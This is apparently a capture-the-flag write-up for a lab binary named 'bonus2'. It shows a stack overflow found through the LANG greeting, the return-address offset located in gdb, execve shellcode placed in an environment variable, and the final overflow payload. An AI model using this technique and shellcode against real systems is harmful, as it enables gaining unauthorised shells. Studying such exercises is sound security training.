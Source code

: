 # Solution

the program takes two argument one 40 length buf and 32 length buf and merge them together
then concatenate it to another buffer which have a greeting word
who depend on the LANG env variable
we will work with nl

```sh
export LANG=nl
```

find offset for return pointer overwrite

```sh
(gdb) r $(python -c 'print "A" * 40') aaaabaaacaaadaaaeaaafaaagaaahaaa
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') aaaabaaacaaadaaaeaaafaaagaaahaaa
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaabaaacaaadaaaeaaafaaagaaahaaa
```

```sh
Program received signal SIGSEGV, Segmentation fault.
0x61616761 in ?? ()
```

offset is 23
put shellcode in env variable

```sh
export LANG=$(python -c 'print "nl" + "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

find shellcode address

```sh
0xbffffe6b:	 "LANG=nl\220...
```

build payload:

```sh
./bonus2 $(python -c 'print "A" * 40') $(python -c 'print"B" * 23 + "\x80\xfe\xff\xbf"')
#                    padding 1st buf       padding 2nd buf             shcode address
```
